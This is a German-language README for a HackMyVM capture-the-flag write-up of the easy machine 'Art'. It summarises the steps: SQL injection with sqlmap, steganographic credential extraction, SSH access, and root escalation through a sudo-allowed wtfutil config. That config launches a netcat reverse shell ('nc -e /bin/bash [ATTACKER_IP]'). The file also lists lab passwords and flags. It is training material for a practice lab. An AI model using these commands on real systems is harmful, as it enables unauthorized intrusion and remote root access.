 # Art - HackMyVM Writeup

![Art VM Icon](Art.png)

Dieses Repository enthält das Writeup für die HackMyVM-Maschine "Art" (Schwierigkeitsgrad: Easy), erstellt von DarkSpirit. Ziel war es, initialen Zugriff auf die virtuelle Maschine zu erlangen und die Berechtigungen bis zum Root-Benutzer zu eskalieren.

## VM-Informationen

*   **VM Name:** Art
*   **Plattform:** HackMyVM
*   **Autor der VM:** DarkSpirit
*   **Schwierigkeitsgrad:** Easy
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Art](https://hackmyvm.eu/machines/machine.php?vm=Art)

## Writeup-Informationen

*   **Autor des Writeups:** Ben C.
*   **Datum des Berichts:** 27. Oktober 2022
*   **Link zum Original-Writeup (GitHub Pages):** [https://alientec1908.github.io/Art_HackMyVM_Easy/](https://alientec1908.github.io/Art_HackMyVM_Easy/)

## Kurzübersicht des Angriffspfads

Der Angriff auf die Art-Maschine umfasste die folgenden Schritte:

1.  **Reconnaissance:**
    *   Identifizierung der Ziel-IP (`192.168.2.113`) mittels `arp-scan`.
    *   Ein `nmap`-Scan offenbarte zwei offene Ports: SSH (22, OpenSSH 8.4p1) und HTTP (80, Nginx 1.18.0).
2.  **Web Enumeration:**
    *   `gobuster` und `feroxbuster` wurden zur Inhaltserkennung auf dem Webserver eingesetzt. `feroxbuster` fand `index.php` und mehrere `.jpg`-Dateien.
    *   Die Analyse des Quellcodes von `index.php` zeigte, dass die `.jpg`-Dateien angezeigt werden und enthielt einen HTML-Kommentar, der auf einen Parameter `tag` hinwies: ``.
3.  **Vulnerability Analysis (SQLi & Stego):**
    *   `wfuzz` bestätigte die Existenz des `tag`-Parameters.
    *   `sqlmap` wurde verwendet, um eine SQL-Injection-Schwachstelle im `tag`-Parameter auszunutzen (`-u "http://192.168.2.113/index.php?tag=" --level=5 --risk=3 --batch -D gallery --dump`).
    *   `sqlmap` identifizierte das Backend als MySQL/MariaDB und dumpte die Datenbank `gallery`. Die Tabelle `art` enthielt Tags und Bildnamen, darunter ein bisher unbekanntes Bild `dsa32.jpg`. Die Tabelle `users` enthielt Benutzernamen und Klartextpasswörter (z.B. `mina:realpazz`).
    *   Das Bild `dsa32.jpg` wurde heruntergeladen. `steghide info` zeigte, dass eine Datei `yes.txt` darin versteckt war.
    *   `stegseek` knackte das (leere) Passwort für die Steganographie und extrahierte `yes.txt` als `dsa32.jpg.out`.
    *   Der Inhalt von `dsa32.jpg.out` war `lion/shel0vesyou`, was auf Benutzername und Passwort hindeutete.
4.  **Initial Access (lion):**
    *   Erfolgreicher SSH-Login als Benutzer `lion` mit dem Passwort `shel0vesyou`.
    *   Die User-Flag (`/home/lion/user.txt`) wurde ausgelesen.
5.  **Privilege Escalation (lion -> root):**
    *   `sudo -l` für den Benutzer `lion` zeigte, dass `/bin/wtfutil` ohne Passwort als jeder Benutzer ausgeführt werden durfte: `(ALL : ALL) NOPASSWD: /bin/wtfutil`.
    *   Eine bösartige `config.yml`-Datei wurde erstellt, die `wtfutil` anwies, über das `cmdrunner`-Modul eine Netcat-Reverse-Shell (`nc -e /bin/bash [ATTACKER_IP] [PORT]`) zu starten.
    *   `wtfutil` wurde mit `sudo -u root /bin/wtfutil --config=/home/lion/config.yml` ausgeführt.
    *   Dies führte zu einer Reverse Shell als `root` auf dem Angreifer-System.
6.  **Flags:**
    *   Die User-Flag wurde als `lion` gelesen.
    *   Die Root-Flag wurde nach der Eskalation in `/var/opt/root.txt` gefunden und ausgelesen.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `gobuster`
*   `feroxbuster`
*   `nikto`
*   Web Browser (impliziert für Quellcode-Analyse)
*   `wfuzz`
*   `sqlmap`
*   `steghide`
*   `stegseek`
*   `cat`
*   `ssh`
*   `sudo`
*   `wtfutil`
*   `nano` / Editor
*   `chmod`
*   `nc` (netcat)
*   `find`
*   `ls`

## Identifizierte Schwachstellen (Zusammenfassung)

*   **SQL-Injection:** Der GET-Parameter `tag` in `index.php` war anfällig für SQL-Injection, was zum Auslesen der Datenbank führte.
*   **Klartextpasswörter in Datenbank:** Die `users`-Tabelle enthielt Passwörter im Klartext.
*   **Steganographie mit schwachem/keinem Passwort:** Eine versteckte Datei in `dsa32.jpg` war mit einem leeren Passwort geschützt und enthielt Zugangsdaten.
*   **Unsichere `sudo`-Konfiguration:** Der Benutzer `lion` konnte `/bin/wtfutil` ohne Passwort als `root` ausführen. `wtfutil` erlaubte das Laden einer benutzerdefinierten Konfigurationsdatei, die zur Ausführung beliebiger Befehle als `root` missbraucht werden konnte (über das `cmdrunner`-Modul).

## Flags

*   **User Flag (`/home/lion/user.txt`):** `HMVygUmTyvRPWduINKYfmpO`
*   **Root Flag (`/var/opt/root.txt`):** `mZxbPCjEQYOqkNCuyIuTHMV`

---

**Wichtiger Hinweis:** Dieses Dokument und die darin enthaltenen Informationen dienen ausschließlich zu Bildungs- und Forschungszwecken im Bereich der Cybersicherheit. Die beschriebenen Techniken und Werkzeuge sollten nur in legalen und autorisierten Umgebungen (z.B. eigenen Testlaboren, CTFs oder mit expliziter Genehmigung) angewendet werden. Das unbefugte Eindringen in fremde Computersysteme ist eine Straftat und kann rechtliche Konsequenzen nach sich ziehen.

---
*Bericht von Ben C. - Cyber Security Reports*
